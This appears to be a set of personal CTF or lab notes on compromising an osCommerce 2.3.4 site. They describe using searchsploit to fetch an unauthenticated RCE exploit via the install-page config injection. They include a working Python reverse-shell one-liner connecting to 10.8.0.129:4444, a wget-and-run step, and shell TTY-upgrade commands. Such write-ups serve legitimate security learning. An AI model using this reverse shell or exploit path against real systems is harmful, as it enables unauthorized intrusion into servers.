 - but hydra brute force later on?


#### /catalog : installation page shown
    - language- php, OS- ubuntu version - old but skip 
    - it needs the username:password
    - rollback or replace set-up possible

-  osCommerce searchsploit and googling first
```
searchsploit osCommerce 2.3.4.1 -m 44374 
```

#### osCommerce 
- osCommerce 2.3.4
- 10 years ago, highly
- RCE unauthenticated
    - if /install exists, create config file and payload will be injected via `define(trim())` function., and execute by visiting configure.php


## Exploitation and Initial Access (Docker)

- PoC : `python -h` payload execution
![alt text](image-8.png)


- revshells rightaway, not in command, 
    1. php
    2. python
    - `wget file` and execute as `python pythonexp.py`  

- pythonexp.py
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.0.129",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```




- fully interactive TTY upgrade
    - which shell? > xterm256-color 

```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
ctrl+Z 
stty raw -echo;fg
reset 

which shell? xterm-256color 
or
export SHELL=bash : what shell I'm using is bash
export TERM=xterm-256color : what terminal I'm using is xterm-256color for color 
```
